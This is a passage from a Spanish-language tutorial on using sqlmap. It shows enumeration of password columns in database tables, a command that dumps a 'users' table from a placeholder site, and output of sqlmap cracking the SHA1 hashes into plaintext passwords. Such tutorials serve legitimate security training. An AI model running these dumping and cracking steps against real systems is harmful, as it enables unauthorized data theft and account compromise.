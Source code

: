 ```r
+----------+--------------+
| password | varchar(512) |
+----------+--------------+

Database: mysql
Table: user
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(41) |
+----------+----------+

Database: mysql
Table: servers
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(64) |
+----------+----------+
```

---

## Password Enumeration and Cracking

Una vez que identificamos una tabla que contiene contraseñas (por ejemplo, `master.users`), podemos recuperar esa tabla con la opción `-T`, como se muestra anteriormente:

```r
sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users

...SNIP...
[14:31:41] [INFO] fetching columns for table 'users' in database 'master'
[14:31:41] [INFO] fetching entries for table 'users' in database 'master'
[14:31:41] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to crack them via a dictionary-based attack? [Y/n/q] Y

[14:31:41] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:31:41] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:31:41] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[14:31:41] [INFO] starting 8 processes 
[14:31:41] [INFO] cracked password '05adrian' for hash '70f361f8a1c9035a1d972a209ec5e8b726d1055e'                                                                                                         
[14:31:41] [INFO] cracked password '1201Hunt' for hash 'df692aa944eb45737f0b3b3ef906f8372a3834e9'                                                                                                         
...SNIP...
[14:31:47] [INFO] cracked password 'Zc1uowqg6' for hash '0ff476c2676a2e5f172fe568110552f2e910c917'                                                                                                        
```